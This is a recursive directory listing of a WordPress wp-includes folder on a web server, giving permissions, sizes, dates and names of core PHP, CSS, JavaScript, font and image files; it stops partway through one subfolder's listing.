-rw-r--r--  1 www-data www-data  22K Mar 17  2017 http.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 ID3
drwxr-xr-x  6 www-data www-data 4.0K Jun  8  2017 images
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 IXR
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 js
-rw-r--r--  1 www-data www-data  50K May 11  2017 kses.php
-rw-r--r--  1 www-data www-data  43K Apr  1  2017 l10n.php
-rw-r--r--  1 www-data www-data 132K Dec 27  2016 link-template.php
-rw-r--r--  1 www-data www-data  32K May 11  2017 load.php
-rw-r--r--  1 www-data www-data  141 Dec  3  2016 locale.php
-rw-r--r--  1 www-data www-data 135K May 26  2017 media.php
-rw-r--r--  1 www-data www-data  46K May 11  2017 media-template.php
-rw-r--r--  1 www-data www-data  37K May 10  2017 meta.php
-rw-r--r--  1 www-data www-data  38K Mar 30  2017 ms-blogs.php
-rw-r--r--  1 www-data www-data 4.7K Oct 19  2016 ms-default-constants.php
-rw-r--r--  1 www-data www-data 4.5K May  9  2017 ms-default-filters.php
-rw-r--r--  1 www-data www-data  15K Apr  5  2017 ms-deprecated.php
-rw-r--r--  1 www-data www-data 2.6K Sep 27  2016 ms-files.php
-rw-r--r--  1 www-data www-data  81K May 10  2017 ms-functions.php
-rw-r--r--  1 www-data www-data  20K Oct 26  2016 ms-load.php
-rw-r--r--  1 www-data www-data 3.4K Aug 31  2016 ms-settings.php
-rw-r--r--  1 www-data www-data  33K May 16  2017 nav-menu.php
-rw-r--r--  1 www-data www-data  21K May 12  2017 nav-menu-template.php
-rw-r--r--  1 www-data www-data  64K May 10  2017 option.php
-rw-r--r--  1 www-data www-data 6.2K Jul  6  2016 pluggable-deprecated.php
-rw-r--r--  1 www-data www-data  86K May  7  2017 pluggable.php
-rw-r--r--  1 www-data www-data  31K Sep 12  2016 plugin.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 pomo
-rw-r--r--  1 www-data www-data 6.8K Aug 25  2015 post-formats.php
-rw-r--r--  1 www-data www-data 207K Apr 22  2017 post.php
-rw-r--r--  1 www-data www-data  58K Apr  6  2017 post-template.php
-rw-r--r--  1 www-data www-data 8.0K Jun 29  2016 post-thumbnail-template.php
-rw-r--r--  1 www-data www-data  23K Feb 23  2017 query.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 random_compat
-rw-r--r--  1 www-data www-data  178 Jul  6  2016 registration-functions.php
-rw-r--r--  1 www-data www-data  178 Jul  6  2016 registration.php
drwxr-xr-x  9 www-data www-data 4.0K Jun  8  2017 Requests
drwxr-xr-x  4 www-data www-data 4.0K Jun  8  2017 rest-api
-rw-r--r--  1 www-data www-data  36K May 25  2017 rest-api.php
-rw-r--r--  1 www-data www-data  21K Nov  9  2016 revision.php
-rw-r--r--  1 www-data www-data  17K May 23  2016 rewrite.php
-rw-r--r--  1 www-data www-data  191 Jul  6  2016 rss-functions.php
-rw-r--r--  1 www-data www-data  23K Oct 31  2016 rss.php
-rw-r--r--  1 www-data www-data  68K Jun  1  2017 script-loader.php
-rw-r--r--  1 www-data www-data  242 Dec  3  2016 session.php
-rw-r--r--  1 www-data www-data  21K Jan  3  2017 shortcodes.php
drwxr-xr-x  9 www-data www-data 4.0K Jun  8  2017 SimplePie
-rw-r--r--  1 www-data www-data 142K Apr 21  2017 taxonomy.php
-rw-r--r--  1 www-data www-data 2.9K Oct  7  2016 template-loader.php
-rw-r--r--  1 www-data www-data  20K Feb 12  2017 template.php
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 Text
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 theme-compat
-rw-r--r--  1 www-data www-data  96K May 16  2017 theme.php
-rw-r--r--  1 www-data www-data  23K May  6  2017 update.php
-rw-r--r--  1 www-data www-data  84K Apr 30  2017 user.php
-rw-r--r--  1 www-data www-data 5.3K Dec 27  2016 vars.php
-rw-r--r--  1 www-data www-data  617 Jun  8  2017 version.php
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 widgets
-rw-r--r--  1 www-data www-data  48K May 19  2017 widgets.php
-rw-r--r--  1 www-data www-data 1.1K Dec 11  2013 wlwmanifest.xml
-rw-r--r--  1 www-data www-data  94K Nov 21  2016 wp-db.php
-rw-r--r--  1 www-data www-data  661 Aug 31  2016 wp-diff.php

/var/www/html/wp-includes/certificates:
total 292K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 274K May 13  2016 ca-bundle.crt

/var/www/html/wp-includes/css:
total 700K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  25K Apr 12  2017 admin-bar.css
-rw-r--r--  1 www-data www-data  21K Apr 12  2017 admin-bar.min.css
-rw-r--r--  1 www-data www-data  25K Apr 12  2017 admin-bar-rtl.css
-rw-r--r--  1 www-data www-data  21K Apr 12  2017 admin-bar-rtl.min.css
-rw-r--r--  1 www-data www-data  11K Apr 19  2017 buttons.css
-rw-r--r--  1 www-data www-data 7.0K Apr 19  2017 buttons.min.css
-rw-r--r--  1 www-data www-data  11K Apr 19  2017 buttons-rtl.css
-rw-r--r--  1 www-data www-data 7.0K Apr 19  2017 buttons-rtl.min.css
-rw-r--r--  1 www-data www-data 6.4K Jan  5  2017 customize-preview.css
-rw-r--r--  1 www-data www-data 5.1K Jan  5  2017 customize-preview.min.css
-rw-r--r--  1 www-data www-data 6.4K Jan  5  2017 customize-preview-rtl.css
-rw-r--r--  1 www-data www-data 5.1K Jan  5  2017 customize-preview-rtl.min.css
-rw-r--r--  1 www-data www-data  48K May  5  2016 dashicons.css
-rw-r--r--  1 www-data www-data  46K May  5  2016 dashicons.min.css
-rw-r--r--  1 www-data www-data  34K Apr 19  2017 editor.css
-rw-r--r--  1 www-data www-data  28K Jun  5  2017 editor.min.css
-rw-r--r--  1 www-data www-data  34K Apr 19  2017 editor-rtl.css
-rw-r--r--  1 www-data www-data  28K Jun  5  2017 editor-rtl.min.css
-rw-r--r--  1 www-data www-data 6.1K Mar 24  2016 jquery-ui-dialog.css
-rw-r--r--  1 www-data www-data 4.7K Mar 24  2016 jquery-ui-dialog.min.css
-rw-r--r--  1 www-data www-data 6.1K May  5  2016 jquery-ui-dialog-rtl.css
-rw-r--r--  1 www-data www-data 4.7K May  5  2016 jquery-ui-dialog-rtl.min.css
-rw-r--r--  1 www-data www-data  50K May  4  2017 media-views.css
-rw-r--r--  1 www-data www-data  42K May  4  2017 media-views.min.css
-rw-r--r--  1 www-data www-data  50K May  4  2017 media-views-rtl.css
-rw-r--r--  1 www-data www-data  42K May  4  2017 media-views-rtl.min.css
-rw-r--r--  1 www-data www-data 2.6K Mar 31  2017 wp-auth-check.css
-rw-r--r--  1 www-data www-data 2.0K Mar 31  2017 wp-auth-check.min.css
-rw-r--r--  1 www-data www-data 2.6K Mar 31  2017 wp-auth-check-rtl.css
-rw-r--r--  1 www-data www-data 2.0K Mar 31  2017 wp-auth-check-rtl.min.css
-rw-r--r--  1 www-data www-data 8.2K Sep  1  2016 wp-embed-template.css
-rw-r--r--  1 www-data www-data 1.5K Oct 31  2015 wp-embed-template-ie.css
-rw-r--r--  1 www-data www-data 1.5K Oct 31  2015 wp-embed-template-ie.min.css
-rw-r--r--  1 www-data www-data 7.1K Jun 17  2016 wp-embed-template.min.css
-rw-r--r--  1 www-data www-data 3.8K May  4  2017 wp-pointer.css
-rw-r--r--  1 www-data www-data 3.0K May  4  2017 wp-pointer.min.css
-rw-r--r--  1 www-data www-data 3.8K May  4  2017 wp-pointer-rtl.css
-rw-r--r--  1 www-data www-data 3.0K May  4  2017 wp-pointer-rtl.min.css

/var/www/html/wp-includes/customize:
total 220K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 1.2K Oct 26  2016 class-wp-customize-background-image-control.php
-rw-r--r--  1 www-data www-data  508 Oct 24  2015 class-wp-customize-background-image-setting.php
-rw-r--r--  1 www-data www-data 2.8K Oct 26  2016 class-wp-customize-background-position-control.php
-rw-r--r--  1 www-data www-data 2.8K Apr 18  2017 class-wp-customize-color-control.php
-rw-r--r--  1 www-data www-data 1.6K Oct 24  2015 class-wp-customize-cropped-image-control.php
-rw-r--r--  1 www-data www-data  11K Feb 17  2017 class-wp-customize-custom-css-setting.php
-rw-r--r--  1 www-data www-data  607 Feb 27  2016 class-wp-customize-filter-setting.php
-rw-r--r--  1 www-data www-data 7.1K May 15  2017 class-wp-customize-header-image-control.php
-rw-r--r--  1 www-data www-data 1.6K Dec  2  2016 class-wp-customize-header-image-setting.php
-rw-r--r--  1 www-data www-data 1.7K Feb 29  2016 class-wp-customize-image-control.php
-rw-r--r--  1 www-data www-data 7.3K May 15  2017 class-wp-customize-media-control.php
-rw-r--r--  1 www-data www-data 1005 Jul 17  2016 class-wp-customize-nav-menu-auto-add-control.php
-rw-r--r--  1 www-data www-data 2.8K Feb  9  2017 class-wp-customize-nav-menu-control.php
-rw-r--r--  1 www-data www-data 6.5K Feb  9  2017 class-wp-customize-nav-menu-item-control.php
-rw-r--r--  1 www-data www-data  27K Nov 30  2016 class-wp-customize-nav-menu-item-setting.php
-rw-r--r--  1 www-data www-data 1.9K Aug  3  2016 class-wp-customize-nav-menu-location-control.php
-rw-r--r--  1 www-data www-data  993 Oct 24  2015 class-wp-customize-nav-menu-name-control.php
-rw-r--r--  1 www-data www-data  747 Jul  6  2016 class-wp-customize-nav-menu-section.php
-rw-r--r--  1 www-data www-data  19K Oct 25  2016 class-wp-customize-nav-menu-setting.php
-rw-r--r--  1 www-data www-data 2.9K Mar  9  2016 class-wp-customize-nav-menus-panel.php
-rw-r--r--  1 www-data www-data  708 Oct 24  2015 class-wp-customize-new-menu-control.php
-rw-r--r--  1 www-data www-data  965 Sep 28  2016 class-wp-customize-new-menu-section.php
-rw-r--r--  1 www-data www-data 9.0K Jan  4  2017 class-wp-customize-partial.php
-rw-r--r--  1 www-data www-data  16K May 19  2017 class-wp-customize-selective-refresh.php
-rw-r--r--  1 www-data www-data 1.1K Oct 24  2015 class-wp-customize-sidebar-section.php
-rw-r--r--  1 www-data www-data 3.3K May 15  2017 class-wp-customize-site-icon-control.php
-rw-r--r--  1 www-data www-data 3.0K Nov 21  2016 class-wp-customize-theme-control.php
-rw-r--r--  1 www-data www-data 2.8K Nov  4  2016 class-wp-customize-themes-section.php
-rw-r--r--  1 www-data www-data  977 Oct 24  2015 class-wp-customize-upload-control.php
-rw-r--r--  1 www-data www-data 1.7K Jan 20  2017 class-wp-widget-area-customize-control.php
-rw-r--r--  1 www-data www-data 2.1K Jan  4  2017 class-wp-widget-form-customize-control.php

/var/www/html/wp-includes/fonts:
total 208K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  22K Mar 18  2016 dashicons.eot
-rw-r--r--  1 www-data www-data  94K Mar 18  2016 dashicons.svg
-rw-r--r--  1 www-data www-data  41K Mar 18  2016 dashicons.ttf
-rw-r--r--  1 www-data www-data  26K Mar 18  2016 dashicons.woff

/var/www/html/wp-includes/ID3:
total 1.1M
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  44K Jun 28  2015 getid3.lib.php
-rw-r--r--  1 www-data www-data  63K Jun 28  2015 getid3.php
-rw-r--r--  1 www-data www-data 1.3K Jun 28  2015 license.commercial.txt
-rw-r--r--  1 www-data www-data 1.4K Jun 28  2015 license.txt
-rw-r--r--  1 www-data www-data  19K Jun 28  2015 module.audio.ac3.php
-rw-r--r--  1 www-data www-data  11K Jun 28  2015 module.audio.dts.php
-rw-r--r--  1 www-data www-data  19K Jun 28  2015 module.audio.flac.php
-rw-r--r--  1 www-data www-data  97K Jun 28  2015 module.audio.mp3.php
-rw-r--r--  1 www-data www-data  40K Jun 28  2015 module.audio.ogg.php
-rw-r--r--  1 www-data www-data 125K Jun 28  2015 module.audio-video.asf.php
-rw-r--r--  1 www-data www-data  25K Jun 28  2015 module.audio-video.flv.php
-rw-r--r--  1 www-data www-data 102K Jun 28  2015 module.audio-video.matroska.php
-rw-r--r--  1 www-data www-data 116K Jun 28  2015 module.audio-video.quicktime.php
-rw-r--r--  1 www-data www-data 117K Sep 11  2014 module.audio-video.riff.php
-rw-r--r--  1 www-data www-data  18K Jun 28  2015 module.tag.apetag.php
-rw-r--r--  1 www-data www-data  12K Jun 28  2015 module.tag.id3v1.php
-rw-r--r--  1 www-data www-data 142K Jun 28  2015 module.tag.id3v2.php
-rw-r--r--  1 www-data www-data  11K Jun 28  2015 module.tag.lyrics3.php
-rw-r--r--  1 www-data www-data  25K Sep 11  2014 readme.txt

/var/www/html/wp-includes/images:
total 164K
drwxr-xr-x  6 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 4.0K Oct 28  2014 admin-bar-sprite-2x.png
-rw-r--r--  1 www-data www-data 2.5K Feb 13  2014 admin-bar-sprite.png
-rw-r--r--  1 www-data www-data 1.7K Oct 28  2014 arrow-pointer-blue-2x.png
-rw-r--r--  1 www-data www-data  793 Nov  7  2012 arrow-pointer-blue.png
-rw-r--r--  1 www-data www-data   43 Nov 25  2014 blank.gif
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 crystal
-rw-r--r--  1 www-data www-data   84 Oct 28  2014 down_arrow-2x.gif
-rw-r--r--  1 www-data www-data   59 Oct 28  2014 down_arrow.gif
-rw-r--r--  1 www-data www-data 1.4K Sep 27  2012 icon-pointer-flag-2x.png
-rw-r--r--  1 www-data www-data  783 Dec  5  2011 icon-pointer-flag.png
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 media
-rw-r--r--  1 www-data www-data 1.3K Nov  7  2012 rss-2x.png
-rw-r--r--  1 www-data www-data  608 Nov  7  2012 rss.png
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 smilies
-rw-r--r--  1 www-data www-data 8.4K Oct 28  2014 spinner-2x.gif
-rw-r--r--  1 www-data www-data 4.1K Oct 28  2014 spinner.gif
-rw-r--r--  1 www-data www-data  354 Nov  7  2012 toggle-arrow-2x.png
-rw-r--r--  1 www-data www-data  289 Oct 28  2014 toggle-arrow.png
-rw-r--r--  1 www-data www-data 3.5K Oct 28  2014 uploader-icons-2x.png
-rw-r--r--  1 www-data www-data 1.6K Feb 13  2014 uploader-icons.png
-rw-r--r--  1 www-data www-data 3.1K Feb 23  2016 w-logo-blue.png
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 wlw
-rw-r--r--  1 www-data www-data  15K Nov 25  2014 wpicons-2x.png
-rw-r--r--  1 www-data www-data 7.0K Nov 25  2014 wpicons.png
-rw-r--r--  1 www-data www-data 9.0K Oct 28  2014 wpspin-2x.gif
-rw-r--r--  1 www-data www-data 2.2K Oct 28  2014 wpspin.gif
-rw-r--r--  1 www-data www-data  825 Oct 28  2014 xit-2x.gif
-rw-r--r--  1 www-data www-data  181 Oct 28  2014 xit.gif

/var/www/html/wp-includes/images/crystal:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 2.4K Oct 28  2014 archive.png
-rw-r--r-- 1 www-data www-data 2.2K Oct 28  2014 audio.png
-rw-r--r-- 1 www-data www-data 1.6K Nov  7  2012 code.png
-rw-r--r-- 1 www-data www-data  453 Feb 13  2014 default.png
-rw-r--r-- 1 www-data www-data 2.1K Oct 28  2014 document.png
-rw-r--r-- 1 www-data www-data 2.2K Oct 28  2014 interactive.png
-rw-r--r-- 1 www-data www-data  149 Mar  3  2014 license.txt
-rw-r--r-- 1 www-data www-data 2.4K Oct 28  2014 spreadsheet.png
-rw-r--r-- 1 www-data www-data  670 Feb 13  2014 text.png
-rw-r--r-- 1 www-data www-data 1.4K Nov  7  2012 video.png

/var/www/html/wp-includes/images/media:
total 44K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data  417 Mar 27  2014 archive.png
-rw-r--r-- 1 www-data www-data  382 Mar 27  2014 audio.png
-rw-r--r-- 1 www-data www-data  274 Mar 25  2014 code.png
-rw-r--r-- 1 www-data www-data  168 Mar 25  2014 default.png
-rw-r--r-- 1 www-data www-data  200 Mar 25  2014 document.png
-rw-r--r-- 1 www-data www-data  319 Mar 25  2014 interactive.png
-rw-r--r-- 1 www-data www-data  188 Mar 25  2014 spreadsheet.png
-rw-r--r-- 1 www-data www-data  188 Mar 25  2014 text.png
-rw-r--r-- 1 www-data www-data  283 Mar 25  2014 video.png

/var/www/html/wp-includes/images/smilies:
total 112K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1007 Apr 10  2015 frownie.png
-rw-r--r-- 1 www-data www-data  169 Oct 28  2014 icon_arrow.gif
-rw-r--r-- 1 www-data www-data  173 Oct 28  2014 icon_biggrin.gif
-rw-r--r-- 1 www-data www-data  170 Oct 28  2014 icon_confused.gif
-rw-r--r-- 1 www-data www-data  172 Oct 28  2014 icon_cool.gif
-rw-r--r-- 1 www-data www-data  490 Oct 28  2014 icon_cry.gif
-rw-r--r-- 1 www-data www-data  170 Oct 28  2014 icon_eek.gif
-rw-r--r-- 1 www-data www-data  241 Oct 28  2014 icon_evil.gif
-rw-r--r-- 1 www-data www-data  236 Oct 28  2014 icon_exclaim.gif
-rw-r--r-- 1 www-data www-data  174 Oct 28  2014 icon_idea.gif
-rw-r--r-- 1 www-data www-data  333 Oct 28  2014 icon_lol.gif
-rw-r--r-- 1 www-data www-data  172 Oct 28  2014 icon_mad.gif
-rw-r--r-- 1 www-data www-data  348 Oct 28  2014 icon_mrgreen.gif
-rw-r--r-- 1 www-data www-data  167 Oct 28  2014 icon_neutral.gif
-rw-r--r-- 1 www-data www-data  247 Oct 28  2014 icon_question.gif
-rw-r--r-- 1 www-data www-data  175 Oct 28  2014 icon_razz.gif
-rw-r--r-- 1 www-data www-data  650 Oct 28  2014 icon_redface.gif
-rw-r--r-- 1 www-data www-data  489 Oct 28  2014 icon_rolleyes.gif
-rw-r--r-- 1 www-data www-data  167 Oct 28  2014 icon_sad.gif
-rw-r--r-- 1 www-data www-data  173 Oct 28  2014 icon_smile.gif
-rw-r--r-- 1 www-data www-data  174 Oct 28  2014 icon_surprised.gif
-rw-r--r-- 1 www-data www-data  241 Oct 28  2014 icon_twisted.gif
-rw-r--r-- 1 www-data www-data  168 Oct 28  2014 icon_wink.gif
-rw-r--r-- 1 www-data www-data 1.5K Apr 10  2015 mrgreen.png
-rw-r--r-- 1 www-data www-data 1.3K Apr 10  2015 rolleyes.png
-rw-r--r-- 1 www-data www-data 1008 Apr 10  2015 simple-smile.png

/var/www/html/wp-includes/images/wlw:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r-- 1 www-data www-data 1.4K Nov  7  2012 wp-comments.png
-rw-r--r-- 1 www-data www-data  664 Nov  7  2012 wp-icon.png
-rw-r--r-- 1 www-data www-data 2.4K Oct 28  2014 wp-watermark.png

/var/www/html/wp-includes/IXR:
total 72K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  414 Aug 26  2016 class-IXR-base64.php
-rw-r--r--  1 www-data www-data  963 Aug 26  2016 class-IXR-clientmulticall.php
-rw-r--r--  1 www-data www-data 4.6K Aug 26  2016 class-IXR-client.php
-rw-r--r--  1 www-data www-data 1.7K Aug 26  2016 class-IXR-date.php
-rw-r--r--  1 www-data www-data  854 Aug 26  2016 class-IXR-error.php
-rw-r--r--  1 www-data www-data 5.2K Aug 26  2016 class-IXR-introspectionserver.php
-rw-r--r--  1 www-data www-data 7.9K Oct 29  2016 class-IXR-message.php
-rw-r--r--  1 www-data www-data  927 Aug 26  2016 class-IXR-request.php
-rw-r--r--  1 www-data www-data 6.8K Aug 26  2016 class-IXR-server.php
-rw-r--r--  1 www-data www-data 3.8K Aug 26  2016 class-IXR-value.php

/var/www/html/wp-includes/js:
total 2.3M
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 18 www-data www-data  12K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  12K Jul 20  2015 admin-bar.js
-rw-r--r--  1 www-data www-data 7.1K Nov  3  2016 admin-bar.min.js
-rw-r--r--  1 www-data www-data  17K Oct 27  2016 autosave.js
-rw-r--r--  1 www-data www-data 5.6K Nov  3  2016 autosave.min.js
-rw-r--r--  1 www-data www-data  23K Jun 16  2016 backbone.min.js
-rw-r--r--  1 www-data www-data  29K Nov 17  2012 colorpicker.js
-rw-r--r--  1 www-data www-data  17K Nov  3  2016 colorpicker.min.js
-rw-r--r--  1 www-data www-data 2.7K Nov 18  2015 comment-reply.js
-rw-r--r--  1 www-data www-data 1.1K Nov 18  2015 comment-reply.min.js
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 crop
-rw-r--r--  1 www-data www-data  22K Apr  6  2017 customize-base.js
-rw-r--r--  1 www-data www-data 7.4K Apr  6  2017 customize-base.min.js
-rw-r--r--  1 www-data www-data 7.4K Oct 18  2016 customize-loader.js
-rw-r--r--  1 www-data www-data 3.4K Nov  3  2016 customize-loader.min.js
-rw-r--r--  1 www-data www-data 5.8K Jul 19  2015 customize-models.js
-rw-r--r--  1 www-data www-data 3.4K Nov  3  2016 customize-models.min.js
-rw-r--r--  1 www-data www-data  26K Apr  6  2017 customize-preview.js
-rw-r--r--  1 www-data www-data  10K Apr  6  2017 customize-preview.min.js
-rw-r--r--  1 www-data www-data  15K Dec 10  2016 customize-preview-nav-menus.js
-rw-r--r--  1 www-data www-data 5.0K Dec 10  2016 customize-preview-nav-menus.min.js
-rw-r--r--  1 www-data www-data  19K Oct 26  2016 customize-preview-widgets.js
-rw-r--r--  1 www-data www-data 7.5K Nov  3  2016 customize-preview-widgets.min.js
-rw-r--r--  1 www-data www-data  33K May 17  2017 customize-selective-refresh.js
-rw-r--r--  1 www-data www-data  11K May 17  2017 customize-selective-refresh.min.js
-rw-r--r--  1 www-data www-data 4.4K Feb 20  2017 customize-views.js
-rw-r--r--  1 www-data www-data 2.4K Feb 20  2017 customize-views.min.js
-rw-r--r--  1 www-data www-data  20K Oct 31  2016 heartbeat.js
-rw-r--r--  1 www-data www-data 5.4K Nov  3  2016 heartbeat.min.js
-rw-r--r--  1 www-data www-data 4.9K Mar 11  2015 hoverIntent.js
-rw-r--r--  1 www-data www-data 1.1K Mar 11  2015 hoverIntent.min.js
-rw-r--r--  1 www-data www-data 7.9K Nov  3  2016 imagesloaded.min.js
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 imgareaselect
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 jcrop
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 jquery
-rw-r--r--  1 www-data www-data  18K Oct  6  2015 json2.js
-rw-r--r--  1 www-data www-data 3.1K Nov  3  2016 json2.min.js
-rw-r--r--  1 www-data www-data  29K Jun 28  2016 masonry.min.js
-rw-r--r--  1 www-data www-data  25K Apr 19  2017 mce-view.js
-rw-r--r--  1 www-data www-data 9.3K Apr 19  2017 mce-view.min.js
-rw-r--r--  1 www-data www-data  22K Feb 17  2016 media-audiovideo.js
-rw-r--r--  1 www-data www-data  13K Feb 17  2016 media-audiovideo.min.js
-rw-r--r--  1 www-data www-data  30K Oct 19  2016 media-editor.js
-rw-r--r--  1 www-data www-data  11K Oct 19  2016 media-editor.min.js
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 mediaelement
-rw-r--r--  1 www-data www-data  24K Mar 31  2017 media-grid.js
-rw-r--r--  1 www-data www-data  14K Mar 31  2017 media-grid.min.js
-rw-r--r--  1 www-data www-data  41K Oct 31  2016 media-models.js
-rw-r--r--  1 www-data www-data  14K Nov  3  2016 media-models.min.js
-rw-r--r--  1 www-data www-data 227K May 17  2017 media-views.js
-rw-r--r--  1 www-data www-data 103K May 17  2017 media-views.min.js
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 plupload
-rw-r--r--  1 www-data www-data  22K May 11  2017 quicktags.js
-rw-r--r--  1 www-data www-data  11K May 11  2017 quicktags.min.js
-rw-r--r--  1 www-data www-data  11K Jul 20  2016 shortcode.js
-rw-r--r--  1 www-data www-data 2.6K Nov  3  2016 shortcode.min.js
-rw-r--r--  1 www-data www-data  10K Apr 17  2012 swfobject.js
drwxr-xr-x  3 www-data www-data 4.0K Jun  8  2017 swfupload
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 thickbox
drwxr-xr-x  7 www-data www-data 4.0K Jun  8  2017 tinymce
-rw-r--r--  1 www-data www-data  25K May 25  2017 twemoji.js
-rw-r--r--  1 www-data www-data 8.8K May 25  2017 twemoji.min.js
-rw-r--r--  1 www-data www-data 4.9K Aug 23  2012 tw-sack.js
-rw-r--r--  1 www-data www-data 3.3K Jun 28  2015 tw-sack.min.js
-rw-r--r--  1 www-data www-data  17K Feb 17  2016 underscore.min.js
-rw-r--r--  1 www-data www-data 4.5K Oct 31  2016 utils.js
-rw-r--r--  1 www-data www-data 1.8K Nov  3  2016 utils.min.js
-rw-r--r--  1 www-data www-data 2.5K Apr 19  2017 wp-a11y.js
-rw-r--r--  1 www-data www-data  653 Apr 19  2017 wp-a11y.min.js
-rw-r--r--  1 www-data www-data 3.1K Nov 15  2016 wp-ajax-response.js
-rw-r--r--  1 www-data www-data 2.1K Nov 15  2016 wp-ajax-response.min.js
-rw-r--r--  1 www-data www-data  42K Apr  2  2017 wp-api.js
-rw-r--r--  1 www-data www-data  14K Apr  2  2017 wp-api.min.js
-rw-r--r--  1 www-data www-data 3.3K Jan 13  2016 wp-auth-check.js
-rw-r--r--  1 www-data www-data 1.8K Jan 13  2016 wp-auth-check.min.js
-rw-r--r--  1 www-data www-data  11K Jan 15  2016 wp-backbone.js
-rw-r--r--  1 www-data www-data 3.0K Jan 15  2016 wp-backbone.min.js
-rw-r--r--  1 www-data www-data  10K Nov 17  2016 wp-custom-header.js
-rw-r--r--  1 www-data www-data 4.4K Nov 16  2016 wp-custom-header.min.js
-rw-r--r--  1 www-data www-data  435 Dec 28  2013 wpdialog.js
-rw-r--r--  1 www-data www-data  237 Dec 28  2013 wpdialog.min.js
-rw-r--r--  1 www-data www-data 3.1K Nov 23  2016 wp-embed.js
-rw-r--r--  1 www-data www-data 1.4K Nov 23  2016 wp-embed.min.js
-rw-r--r--  1 www-data www-data 6.1K Jul  5  2016 wp-embed-template.js
-rw-r--r--  1 www-data www-data 3.1K Jul  5  2016 wp-embed-template.min.js
-rw-r--r--  1 www-data www-data 6.7K Aug  4  2016 wp-emoji.js
-rw-r--r--  1 www-data www-data 5.2K May 29  2017 wp-emoji-loader.js
-rw-r--r--  1 www-data www-data 2.0K May 29  2017 wp-emoji-loader.min.js
-rw-r--r--  1 www-data www-data 2.8K Nov  3  2016 wp-emoji.min.js
-rw-r--r--  1 www-data www-data  12K May 25  2017 wp-emoji-release.min.js
-rw-r--r--  1 www-data www-data  21K May 11  2017 wplink.js
-rw-r--r--  1 www-data www-data  11K May 11  2017 wplink.min.js
-rw-r--r--  1 www-data www-data  914 Nov 15  2013 wp-list-revisions.js
-rw-r--r--  1 www-data www-data  569 Nov  3  2016 wp-list-revisions.min.js
-rw-r--r--  1 www-data www-data  25K Oct  3  2016 wp-lists.js
-rw-r--r--  1 www-data www-data 7.3K Nov  3  2016 wp-lists.min.js
-rw-r--r--  1 www-data www-data 6.5K Nov 15  2013 wp-pointer.js
-rw-r--r--  1 www-data www-data 3.6K Nov 13  2013 wp-pointer.min.js
-rw-r--r--  1 www-data www-data 3.9K Jun 26  2016 wp-util.js
-rw-r--r--  1 www-data www-data 1.1K Jun 26  2016 wp-util.min.js
-rw-r--r--  1 www-data www-data  502 Nov 12  2013 zxcvbn-async.js
-rw-r--r--  1 www-data www-data  324 Jan 29  2014 zxcvbn-async.min.js
-rw-r--r--  1 www-data www-data 803K Dec 13  2016 zxcvbn.min.js

/var/www/html/wp-includes/js/crop:
total 40K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data 2.9K Dec 20  2012 cropper.css
-rw-r--r--  1 www-data www-data  17K May  4  2007 cropper.js
-rw-r--r--  1 www-data www-data  277 Nov  7  2012 marqueeHoriz.gif
-rw-r--r--  1 www-data www-data  293 Nov  7  2012 marqueeVert.gif

/var/www/html/wp-includes/js/imgareaselect:
total 72K
drwxr-xr-x  2 www-data www-data 4.0K Jun  8  2017 .
drwxr-xr-x 11 www-data www-data 4.0K Jun  8  2017 ..
-rw-r--r--  1 www-data www-data  178 Nov  7  2012 border-anim-h.gif
-rw-r--r--  1 www-data www-data  178 Nov  7  2012 border-anim-v.gif
